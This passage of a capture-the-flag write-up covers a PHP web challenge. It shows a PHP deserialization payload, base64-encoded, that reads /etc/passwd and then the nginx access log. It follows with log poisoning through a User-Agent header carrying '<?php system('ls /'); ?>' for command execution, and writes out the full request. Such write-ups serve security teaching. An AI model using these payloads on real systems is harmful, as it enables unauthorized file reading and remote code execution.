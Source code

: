 <div style="width: 65%; height: 65%">

  ![](images/burpsuite_passwd.png)
  
</div>  

As you can see from the previous screen, we are able to retrieve the contente of the `passwd` file...    
the problem is that we still have no clue on the flag's location.  
We know that the webserver is nginx though so we can leverage the nginx log to see if we can find something useful.  
The new payload is 
```console
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64                                                                                                                                       ─╯
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQo=
```  
Then again we submit the request via burpsuite and we note that the User-Agent header  
is being logged, we can leverage this by changing its value to a malicious PHP payload and send it to the server  
for this scope we will use the php `system()` function that enable us to execute os-level command on the server:   
```php
<?php system('ls /'); ?>
```  
The new request will then be:  
```console
GET / HTTP/1.1
Host: 138.68.156.57:32327
User-Agent: <?php system('ls /');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```